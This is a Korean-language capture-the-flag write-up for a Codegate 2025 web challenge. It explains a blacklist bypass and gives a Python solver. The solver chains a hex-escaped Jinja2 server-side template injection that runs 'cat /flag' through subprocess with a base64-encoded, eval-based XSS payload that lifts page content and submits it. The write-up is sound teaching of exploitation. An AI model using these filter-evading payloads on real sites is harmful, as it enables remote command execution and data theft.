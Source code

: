 이제 BLACKLIST를 우회해서 XSS를 실행해야 한다.

간단하게 하기 위해서 XSS 코드를 작성 후 이를 base64로 인코딩 하여 eval하는 방식을 선택했다.

1. **원본 코드**

```jsx
window.onload = () => {
  document.querySelector("input").value =
    document.querySelector("pre#flag").textContent;
  document.querySelector("button").click();
};
```

`pre#flag` 에 담긴 flag를 읽어와 `input.value`에 넣어서 `form`을 통해 `/accept`로 POST 요청을 보낸다.

1. **base64 + URL encoding**

```
d2luZG93Lm9ubG9hZD0oKT0+e2RvY3VtZW50LnF1ZXJ5U2VsZWN0b3IoJ2lucHV0JykudmFsdWUgPSBkb2N1bWVudC5xdWVyeVNlbGVjdG9yKCdwcmUjZmxhZycpLnRleHRDb250ZW50O2RvY3VtZW50LnF1ZXJ5U2VsZWN0b3IoJ2J1dHRvbicpLmNsaWNrKCk7fTs=
```

base64 encoding 후 GET 파라미터에 들어갈 때 `+`등의 문자가 특수문자로 사용되는 것을 막기 위해 URL encoding을 했다.

## Solver

```python
import requests as req
from base64 import b64encode
from urllib.parse import quote
import re

url = 'http://localhost:5000'

ssti_payload = '''
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(485)('cat /flag',shell=True,stdout=-1)|attr('communicate')()|attr('__getitem__')(0)|attr('decode')('utf-8')}}
'''.strip().replace('_','\\x5f').replace('c', '\\x63')

xss_payload = b'''window.onload=()=>{document.querySelector('input').value = document.querySelector('pre#flag').textContent;document.querySelector('button').click();};'''
xss_payload = quote(b64encode(xss_payload))
xss_payload = f'<script>eval(atob(decodeURIComponent("{xss_payload}")))</script>'

payload = '</pre><pre id="flag">' + ssti_payload + '</pre>' + xss_payload + '<pre>'

res = req.post(f'{url}/write', data={
    'title': 'dummy',
    'content': quote(payload)
})

res = req.get(url)
flag = re.findall(r"codegate2025\{.+\}", res.text)[0]

print(flag)
```
